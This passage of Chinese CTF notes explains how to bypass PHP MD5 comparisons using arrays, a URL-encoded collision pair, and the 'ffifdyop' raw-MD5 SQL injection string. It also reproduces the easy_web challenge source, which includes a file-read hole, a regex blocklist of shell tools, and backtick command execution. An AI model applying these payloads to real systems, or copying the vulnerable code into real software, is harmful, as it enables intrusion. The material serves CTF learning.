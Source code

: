 2. MD5强类型比较

   ```
   if(md5((string)$_GET['a'])===md5((string)$_GET['b']))//此时两个md5后的值采用严格比较，没有规定字符串如果这个时候传入的是数组不是字符串，可以利用md5()函数的缺陷进行绕过
   var_dump(md5([1,2,3])==md5([4,5,6]));//true
   var_dump(md5($_GET['a'])==md5($_GET['b']));
   ?a[]=1&b[]=1//true
   
   md5()函数的描述是string md5(string $str[,bool $raw_output=false])
   md5中需要的是一个string参数，但是当你传入一个array(数组)是，md5()是不会报错的，只是无法求出array的md5的值，这样就会导致任意的2个array的md5的值都会相等
   ```

3. MD5碰撞

   ```
   if($_GET['a']!==$_GET['b'] && md5($_GET['a'])===md5($_GET['b']))
   bp抓包输入
   a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2&b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
   ```

4. 数据库碰撞

   ```
   $query = "SELECT * FROM flag WHERE password = '" . md5($_GET["hash4"],true) . "'";
   这需要一个极其特殊的md5的值 ffifdyop
   
   这个字符串进行md5后恰好结果是’or’6�]��!r,��b，他的前四位为’or’正好满足sql注入查询的条件，因此可以完美绕过
   ```

### [安洵杯 2019]easy_web

img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd='  ，T开头，像两次base64加密，解开后发现像16进制，https://zixuephp.net/tool-str-hex.html  ，用这个网站转字符串

```
<?php
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}
```

[2020强网杯]: https://www.gem-love.com/ctf/2576.html#Funhash
[^PHP花式绕过大全]: https://blog.csdn.net/xiayu729100940/article/details/102619255
[PHP中MD5碰撞Bypass]: https://evi0s.com/2019/02/09/md5-collisions/
[2021陕西省大学生网络安全技能大赛 Web ez_checkin]: https://www.cnblogs.com/seizer/p/14840901.html
[难版pop链]: https://www.136.la/nginx/show-127914.html
[PHP之十六个魔术方法详解]:  https://segmentfault.com/a/1190000007250604